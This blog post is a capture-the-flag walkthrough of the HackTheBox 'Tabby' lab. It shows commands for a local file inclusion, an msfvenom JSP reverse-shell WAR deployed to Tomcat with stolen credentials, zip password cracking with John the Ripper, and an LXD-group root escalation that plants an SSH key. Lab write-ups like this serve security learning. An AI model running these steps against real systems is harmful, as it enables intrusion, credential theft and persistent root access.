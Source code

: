 ```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, ssh, lxd, tomcat, lfi, johntheripper]
comments: true
---
```



This is a write up about Tabby box from HackThebox. The machine ip address is 10.10.10.194 and is rated as easy by the community. In short, I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials. I then used those credentials to upload a file on the server and get remote code execution. I brute force a protected file and found the password of an user. The user I had compromise was member of the lxd group wich allowed me to elevate my privileges to root.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8ef266cc2812400c8683218347a1d3fc.png)

# Enumeration

As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/987987c4fcf945e7aa64b25d8536798e.png)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/1f617483764c4fbba3a9f9b7a24f0afd.png)



## Port 80
I browser to the main website and found a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/d980c4ba589345328af65147252aa056.png)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/27fc66fd9f9447228f593b962893566b.png)

## Port 8080
The seconde HTTP server had a basic installation of Tomcat 9. I did my homework and found Tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat 9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file to get users credentials and rights.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e2780244817345728fc064069c33ee3a.png)

# Foothold
Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war http://10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (http://10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e92487ac5644472cb38809675ee6b619.png)

# Normal user privilege escalation
I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c0fbaabf39734fd8aa4c5d8ae1039119.png)



Any user could read the file so I uploaded it on my machine and brute force the password with [john The Ripper](https://www.openwall.com/john/).

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/36d527c32c9c49d1882a6f9d650e8003.png)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/680afd5896ff4d52b1efe8d6e1cf2c93.png)

# Root Privilege escalation
LXD is Ubuntu’s container manager utilising linux containers. It could be considered to act in the same sphere as docker. LXD group should by no means contain normal users because there is multiple trivial ways to escalate privileges to root.

For the [lxd exploit](https://www.exploit-db.com/exploits/46978) to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/014af8c4a7fd4c54a6b4895471d07390.png)

The file system of Tabby is accessible from `/mnt/root/` and I could make any modification on the box since I were root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root with the priviate key and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/5015ddcdcd06472190bc2e70b88565c9.png)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
- [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [LXD privilege escalation exploit](https://www.exploit-db.com/exploits/46978)
- [LXD vulnerabiliy explain in deth](https://shenaniganslabs.io/2019/05/21/LXD-LPE.html)
- [Automated Enumaration linux tool](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [Tomcat 9 remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
- [John the ripper](https://www.openwall.com/john/)
